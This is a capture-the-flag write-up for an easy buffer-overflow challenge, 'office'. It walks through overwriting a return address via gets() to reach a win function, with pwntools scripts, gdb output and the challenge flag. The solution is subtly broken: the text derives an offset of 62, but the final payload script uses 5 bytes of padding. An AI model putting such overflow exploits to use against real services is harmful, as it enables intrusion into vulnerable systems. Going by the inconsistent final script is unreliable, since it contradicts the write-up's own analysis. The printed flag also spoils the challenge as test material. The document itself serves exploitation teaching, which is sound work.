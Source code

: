 # Title

## Authors
- @jame
- @Sequeli 

## Category
- Binary Exploitation

## Description
We are overflowing with customers!

`nc pwn.ctf.unswsecurity.com 5002`

## Difficulty
- Easy

## Points
50

## Files
- [office](_ctfd/files/office): binary to exploit

## Solution
<details>
<summary>Spoiler</summary>

### Idea
Using a buffer overflow, you can overwrite the return address and change code flow!

### Walkthrough
As usual, a plug for LiveOverflow is due:
- [LiveOverflow's binary exploitation playlist](https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN)  
  (Shall go into the exploits in MUCH more detail)
  
The exploit is a simple buffer overflow through gets(). So the best way to break the program, is to be reaally excited about that skylight cyber visit

![gets excited kek](writeup-imgs/gets.png)

The easiest way to find the gets, is to run `ltrace` on the execution. Automating the input from before

```bash
python -c "print 'a' * 100" | ltrace ./office
```  
gives us:
![ltrace shenanigans](writeup-imgs/ltrace.png)

as you see, its running gets, which means you can enter as many characters as you want and the program happily writes it into memory (even in places you, the user is not meant to write to)

The idea is that you're meant to "visit" Skylight's Sydney office, which is a 4-byte address to the win function. The best way to see this is to open up the binary in gdb, list all functions using `info functions` command
```
pwndbg> info functions
...
0x080491e6  win
0x08049277  vuln
0x080492ef  main
...
```

The point is that when you write excess input using gets, it filled up the buffer which was meant to store it, and then started overwriting the stack. The program, on executing the return statement, will simply take what's on the top of the stack (since this is where it expects the return address to be) and then jumps to it. If we control this address, we control code flow

Now the only problem is to find the offset to write the address to. The easiest way to do this is to write the address to every offset until it gives you a flag.
```py
from pwn import *
from subprocess import Popen, PIPE

for i in range(20, 100):
    test = b'a' * i + pack(0x080491e6)
    
    # open a link to the program and execute
    prog = Popen('./office', stdin=PIPE, stdout=PIPE)
    (res, _) = prog.communicate(test)

    # search for the flag
    if (b"SKYLIGHT" in res):
        print(res)
        break
```
**Note**: The pack function from pwntools converts numbers into little endian format. (google this or watch liveoverflow as to why)


But for the sake of understanding how this works is to enter a large number of unique characters, and find out which character the program redirects execution to. 
something like:
```
python -c "print 'AAAABBBBCCCCDDDD...'" | ./office 
```
we can generate long unique strings using pwntools
```py
from pwn import *
print(cyclic(100))
```
then you run the program using gdb, and enter the string you created
```
gdb ./office
gdb> run
gdb> **enter your string here**
```
We then see that the program tries to return (or jump to) the address `0x61716161`
![pwndbg output](writeup-imgs/pwndbg.png)
_I'm using the pwndbg extension for gdb btw, that's why it looks prettier_

Since we see that the instruction pointer was trying to execute the instruction `aaqa`, we can find the offset for it into the buffer (using pwntools again)
```py
from pwn import *
print(cyclic_find(b'aaqa'))
```
which gives us 62, i.e. it jumps to the address after the 62nd character. So our payload is now:

```py
b'a' * 62 + pack(0x080491e6)
``` 
Putting this in the pwntools script, we get:
```py
from pwn import *
from subprocess import Popen, PIPE

prog = Popen('./office', stdin=PIPE, stdout=PIPE)

payload = b'a' * 5 + pack(0x080491e6)
(res, _) = prog.communicate(payload)
print(res)
```


### Flag
`SKYLIGHT{th1s_i5_n0t_0UR_0FF1ce}`

</details>
